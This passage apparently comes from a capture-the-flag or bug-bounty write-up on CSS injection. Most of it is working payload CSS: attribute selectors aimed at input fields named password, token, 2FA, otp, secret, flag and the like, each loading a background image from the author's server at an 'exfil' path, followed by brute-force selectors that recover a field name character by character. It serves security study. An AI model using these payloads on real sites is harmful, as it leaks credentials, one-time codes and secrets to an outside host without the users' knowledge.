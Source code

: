 ```
input[name*=key] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/key);
}
input[name*=password] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/password);
}
input[name*=secret] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/secret);
}
input[name*=2FA] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/2FA);
}
input[name*=token] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/token);
}
input[name*=code] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code);
}
input[name*=otp] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/otp);
}
input[name*=flag] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/flag);
}
input[name*=pass] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/pass);
}
input[name*=challenge] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/challenge);
}
input[name*=challenge_answer] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/challenge_answer);
}
```  

Launched the request in order to fetch my CSS stylesheet and got callback : 

![cf_array](./images/regex-name-code-2020-06-1106_27_45.png)


In order to get full tag name, I continued bruteforcing the name :  
  
```
input[name^=code_] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/code_);
}
input[name^=codea] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/codea);
}

input[name^=codeb] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/codeb);
}

input[name^=codec] {
    background-image: url(https://myredactedvps.eu/louzogh/exfil/codec);
}
....
```  
